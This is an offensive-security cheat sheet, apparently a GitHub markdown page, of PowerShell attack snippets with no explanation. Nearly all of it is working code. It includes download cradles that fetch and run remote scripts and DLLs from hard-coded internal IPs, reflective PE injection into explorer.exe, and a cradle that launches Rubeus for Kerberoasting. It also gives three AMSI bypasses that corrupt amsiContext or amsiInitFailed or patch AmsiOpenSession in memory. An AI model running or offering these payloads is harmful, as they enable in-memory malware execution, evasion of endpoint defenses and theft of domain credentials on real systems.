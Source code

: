 #### Powershell Download Custom User Agent

```
$wc = new-object system.net.WebClient
$wc.Headers.Add('User-Agent', "This is my agent, there is no one like it...")
$wc.DownloadString("http://192.168.119.120/run.ps1")
```

#### Powershell DLL Reflective Runner

```
$dll = (new-object net.webclient).DownloadData("http://192.168.49.83/ClassLibrary1.dll")
[System.Reflection.Assembly]::Load($dll)
[ClassLibrary1.Class1]::runner()
```

#### Invoke-ReflectivePEInjection.ps1

```
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.83/met.dll')
$procid = (Get-Process -Name explorer).Id
IEX (New-Object Net.WebClient).DownloadString('http://192.168.49.83/ref.ps1')
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

#### Invoke-Sharploader Reflective PE Injection

```
(new-object net.webclient).downloadstring('http://192.168.49.83/psh/Invoke-Sharpcradle/Invoke-Sharpcradle.ps1')|iex; invoke-sharpcradle -uri http://192.168.49.83/Rubeus.exe -argument1 "kerberoast"
```

### Powershell AMSI Bypass

#### Powershell AMSI Bypass via "amsiContext" Header Corruption

```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf=@(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

#### Powershell AMSI Bypass via "amsiInitFailed" Corruption

```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*InitFailed") {$f=$e}};$f.SetValue($null,$true)
```

#### Powershell "AmsiOpenSession" AMSI Binary Patch Bypass

[Full Source](../src/powershell/AmsiOpenSession-Patch-amsi-bypass.ps1)

```
[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32],[UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)

$buf = [Byte[]] (0x48, 0x31, 0xC0)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
# restore
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)
```
